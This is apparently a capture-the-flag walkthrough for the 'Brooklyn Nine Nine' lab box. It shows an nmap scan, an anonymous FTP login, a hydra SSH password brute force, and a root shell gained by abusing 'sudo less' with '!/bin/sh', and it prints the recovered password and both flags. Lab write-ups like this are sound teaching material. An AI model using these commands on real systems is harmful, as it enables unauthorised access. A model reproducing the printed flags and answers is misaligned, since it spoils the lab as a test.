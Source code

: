 **Tristan Gomez**


# Brooklyn Nine Nine
```
This room is aimed for beginner level hackers but anyone can try to hack this box. 
There are two main intended ways to root the box. If you find more dm me in discord at Fsociety2006.
```

To begin, I'll start running a basic nmap scan which yields at least 3 open ports.
```
└─$ sudo nmap -sS 10.10.97.0
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-16 11:06 PDT
Nmap scan report for 10.10.97.0
Host is up (0.18s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.61 seconds

```

Let's check out ftp and see if `anonymous:password` works. This is easy, low-hanging fruit to check. So, we get in using anonymous ftp and there is one file in the directory.

In note_to_jake.txt
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
Hmm, so we have a weak password for `jake`. Let's use hydra to see if we can get his ssh password.

`hydra -l jake -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt ssh://10.10.97.0`
`[22][ssh] host: 10.10.97.0   login: jake   password: 987654321`

Yep, that was fast. `jake:987654321`. Let's ssh in and see what we can find.

```
jake@brookly_nine_nine:~$ pwd
/home/jake
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
So I am in `/home/jake` and I can run `less` as the root user. Looking in /home, I found three directories: amy, jake, and holt. Looking in `holt`, I found the user flag!
```
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
jake@brookly_nine_nine:/home/holt$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

Now we need to privesc to get the root flag. Let's check `gtfobins` to see if we can abuse this.
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```


I ran the first two lines below and BAM! I am root!
```
sudo less /etc/profile
!/bin/sh
# whoami
root
```

Let's close this ctf out!
```
# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
# 

```





